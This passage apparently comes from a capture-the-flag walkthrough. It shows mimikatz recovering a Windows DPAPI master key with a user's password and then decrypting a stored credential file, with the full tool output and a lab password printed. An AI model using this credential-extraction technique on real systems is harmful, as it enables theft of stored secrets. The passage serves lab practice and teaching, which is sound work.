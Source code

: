     [backupkey]
      **MASTERKEY**
        dwVersion        : 00000002 - 2
        salt             : 4bb6dd9b5b9656d97b78f114796457f4
        rounds           : 000043f8 - 17400
        algHash          : 0000800e - 32782 (CALG_SHA_512)
        algCrypt         : 00006610 - 26128 (CALG_AES_256)
        pbKey            : 0fe6b3aa5dd3af46bd7a87cbc0161fc41ae13f8714a22bcb5bda86f24
    d95ad03369a5335159185d0276743d0c1132b35fdaffad247d3c4f5f43260413c28b401ed70e42e0
    184f9e8c4668abc36eb7327bd2c7374a2381b4cdd4ea7c465deaa755e0f53672473900db8868b428
    327edaa
    
    [credhist]
      **CREDHIST INFO**
        dwVersion        : 00000003 - 3
        guid             : {009668e5-9305-401b-ba0d-dfa0e11b34d0}
    
    
    
    [masterkey] with password: 4Cc3ssC0ntr0ller (normal user)
      key : b360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391
    c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
      sha1: bf6d0654ef999c3ad5b09692944da3c0d0b68afe
    

#### Decrypt Credential

I’ll use that master key to decrypt the credential file. `mimikatz` is smart
enough to use the master key that is held in memory from previous instruction,
but I can also explicitly pass it with `/masterkey:b360fa5d...`

    
    
    mimikatz # dpapi::cred /in:\users\0xdf\desktop\credentials
    **BLOB**
      dwVersion          : 00000001 - 1
      guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
      dwMasterKeyVersion : 00000001 - 1
      guidMasterKey      : {0792c32e-48a5-4fe3-8b43-d93d64590580}
      dwFlags            : 20000000 - 536870912 (system ; )
      dwDescriptionLen   : 0000003a - 58
      szDescription      : Enterprise Credential Data
    
      algCrypt           : 00006610 - 26128 (CALG_AES_256)
      dwAlgCryptLen      : 00000100 - 256
      dwSaltLen          : 00000020 - 32
      pbSalt             : f5bbbac240bd90d9af7d3c2cfb7f301f1f123ac94d07a3cc012038135
    fa5a6bc
      dwHmacKeyLen       : 00000000 - 0
      pbHmackKey         :
      algHash            : 0000800e - 32782 (CALG_SHA_512)
      dwAlgHashLen       : 00000200 - 512
      dwHmac2KeyLen      : 00000020 - 32
      pbHmack2Key        : f9642d323fae366a4f7293d02f26e4472adc32b00bac6a061914458da
    dfd3e52
      dwDataLen          : 00000100 - 256
      pbData             : e73542ff71d08529f9da5ff88edcd5be44d11c9c02c45fdfd9ee5a531
    628cb0f9e8dc221eb5b4d83a857aff13473131c927527217fe177e08d63a63eb5ce5341576b33332
    806e062363e58786fb7551aaa2e0676b8e3957f43cf1f11a2ed149c431104e5f93f20364916df25a
    0168ede23788bd9d71192cdb661c5c5686ed256c8691057fe6fe2a2b1765ba0979ee9140c010210e
    ea81ac00830f74c35a196ac1f46bd69d7a86ca82da15f9bbcf1c40cbbe41d58d4a8924afde97e2a9
    9a6e9f33a297ef2508401c229a451b911e9469ba17d71288dc6c37ee26c65ecc8accd4b5b3c0c2cc
    fcae6b0a76384a0e27c4edb7a0ecece2afd9889252304db5767bbc3
      dwSignLen          : 00000040 - 64
      pbSign             : 63fcc153bcd60befd074a5098ea0e552f8809562c553985baa8720a82
    8e61e05bd5d1cb8200711551a100ed3b853598b3875ba90b689bc483342fbf671b89c99
    